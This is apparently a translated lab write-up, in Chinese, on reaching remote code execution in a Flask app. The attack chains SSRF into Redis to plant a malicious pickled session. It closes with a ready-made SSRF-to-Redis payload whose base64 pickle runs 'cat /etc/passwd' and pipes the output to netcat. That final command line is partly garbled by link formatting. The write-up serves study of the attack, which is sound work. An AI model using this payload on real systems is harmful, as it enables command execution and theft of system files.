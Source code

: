 攻击流程非常简单，我们只需要通过 SSRF 改变有效载荷 Pickle 的会话值。根据源代码中的逻辑，会话将被序列化并进行 base64 编码。

为了能够更改存储在 Redis 中的会话值，您需要一个密钥名，在本实验中，会话将以名称`session:<session_id>`存储

![](img/dd71742de6e784303c975444b5540e79.png)

使用 redis-cli 检查 Redis 中的存储值

我们可以使用名为开发人员工具的默认 web 浏览器功能来查看会话 Id

![](img/9a131c409f0dd1b6b251a64ae47e25ef.png)

**琐事:烧瓶内部**

当请求即将结束或视图返回时，Flask 将在内部调用`finalize_request`方法，然后在`finalize_request`方法中有另一个对从`session_interface`类调用`save_session`的`process_response`方法的调用，`save_session`方法将保存会话的值(在这篇博文的上下文中，会话值将保存到 Redis)。

为什么这些信息很重要？因为当我们试图通过 SSRF 更改 Redis 中 flask 会话的值时，我们之前通过 SSRF 更改的值将被原始值覆盖。

在 Pickle-Redis 实验室中，至少有 3 种情况可以对 RCE 进行存档:

1.  当 SSRF 有效载荷被执行时，我们同时访问其他端点，例如`/login`(这个方法可以使用*多线程/多处理*)因为当访问其他端点时，Flask 会调用`session_interface`类的`open_session`方法，然后检索会话值(所以要避免`save_session`)。
2.  更改 Session-Id 的值，然后将有效负载 Pickle 写入修改后的 Session-Id，例如会话 Id 是 AAAA-AAAA-AAAA-AAAA，我们可以将其更改为 AAAA-AAAA-AAAA-AAAB，然后将 AAAA-AAAA-AAAA-AAAA-AAAB 设置为 Key，稍后只需在客户端使用 AAAA-AAAA-AAAA-AAAA-AAAB，以便 Flask 读取会话 Id 的值。
3.  使用主从 Redis 功能(用`SLAVEOF`命令通过 SSRF 触发)，然后直接通过主服务器更改值，因为主服务器中发生的任何更改都会自动同步到从服务器。‌

在这篇博文中，我们将选择场景 2，

```
$ python2 payload_redis.py pickleKey name > session:8ac1cb48-5064-4067-9e43-ed0df6856425[http://127.0.0.1:6379/_%0D%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%2444%0D%0Asession%3A8ac1](http://127.0.0.1:6379/_%0D%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%2444%0D%0Asession%3A8ac1)cb48-5064-4067-9e43-ed0df6856425%0D%0A%2492%0D%0AY3Bvc2l4CnN5c3RlbQpwMAooUydjYXQgL2V0Yy9wYXNzd2QgfCBuYyAxMjcuMC4wLjEgOTA5MScKcDEKdHAyClJwMwou%0D%0A
```
